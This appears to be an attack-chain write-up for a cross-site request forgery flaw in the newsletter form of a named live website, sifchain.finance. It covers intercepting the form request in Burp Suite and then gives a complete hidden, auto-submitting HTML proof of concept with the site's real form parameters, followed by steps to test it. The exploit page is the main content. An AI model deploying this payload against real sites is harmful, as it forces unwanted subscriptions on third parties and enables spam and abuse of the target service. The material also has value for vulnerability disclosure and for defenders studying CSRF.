

# CSRF Exploitation in Sifchain Newsletter Form for Unauthorized Email Subscription

Multi-stage attack chain demonstrating a complete workflow to exploit a CSRF vulnerability in the Sifchain website's newsletter subscription form, allowing attackers to subscribe arbitrary email addresses without user consent.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform (WordPress with PHP and Mailchimp mc4wp plugin)
- Required services: HTTP/HTTPS on port 443
- Network access: Direct internet access to https://sifchain.finance/

### Initial Access Requirements

- No credentials required
- Attacker must be able to host or serve an HTML file (local or remote)
- Victim must visit the attacker's HTML page while potentially authenticated to the target site (though unauthenticated works here)

## Detailed Attack Procedures

### Step 1: Analyze Newsletter Form Request
procedure: [[procedures/Analyze-Newsletter-Form-for-CSRF-Vulnerability]]

**Objective**: Intercept and examine the POST request to identify the absence of CSRF token validation in the newsletter subscription form.

**Instructions**: Use [[tools/Burp-Suite]] to proxy and analyze the form submission:

1. Configure your browser to proxy through Burp Suite.
2. Navigate to the newsletter form on https://sifchain.finance/ and submit a test email.
3. In Burp's Proxy tab, intercept the POST request to the root endpoint (/).

**Expected Output**: Request details showing parameters like EMAIL, _mc4wp_honeypot, _mc4wp_timestamp, _mc4wp_form_id, and _mc4wp_form_element_id, with no CSRF token present.

**Success Indicators**:
- POST request intercepted successfully
- No anti-CSRF token (e.g., no _token or similar field) observed

### Step 2: Craft CSRF Proof-of-Concept HTML
procedure: [[procedures/Craft-CSRF-Proof-of-Concept-HTML]]

**Objective**: Create a malicious HTML page that automatically submits a forged form to subscribe a target email without user interaction.

**Instructions**: Generate an HTML file with a hidden auto-submitting form mimicking the original request:

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF PoC</title>
</head>
<body>
    <form id="csrf-form" action="https://sifchain.finance/" method="POST" style="display:none;">
        <input type="hidden" name="EMAIL" value="victim@example.com">
        <input type="hidden" name="_mc4wp_honeypot" value="">
        <input type="hidden" name="_mc4wp_timestamp" value="1620658126">
        <input type="hidden" name="_mc4wp_form_id" value="204">
        <input type="hidden" name="_mc4wp_form_element_id" value="mc4wp-form-1">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

Save this as poc.html. Adjust the EMAIL value to the target email and update timestamp/form IDs if needed based on analysis.

**Expected Output**: A valid HTML file ready for testing or distribution.

**Success Indicators**:
- HTML file parses without errors
- Form fields match the intercepted request parameters

### Step 3: Test CSRF Exploitation via Browser
procedure: [[procedures/Test-CSRF-Exploitation-via-Browser]]

**Objective**: Execute the PoC to verify the vulnerability by triggering an unauthorized subscription.

**Instructions**: Open the crafted HTML file in a browser:

1. Save poc.html locally.
2. Open it in Chrome or Firefox (ensure no strict CSP blocks the submission).
3. The form should auto-submit to https://sifchain.finance/.

Monitor the network tab or response for success.

**Expected Output**: Browser response or page redirect showing 'Thank you, your sign-up request was successful! Please check your email inbox to confirm.'

**Success Indicators**:
- Subscription confirmation message received
- Target email receives a confirmation email from the newsletter service

## Attack Chain Summary

### Key Achievements

1. Identified CSRF vulnerability in the newsletter form lacking token protection.
2. Demonstrated exploitation via a simple HTML PoC for unauthorized subscriptions.
3. Highlighted potential for spam/phishing impacts through forced signups.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
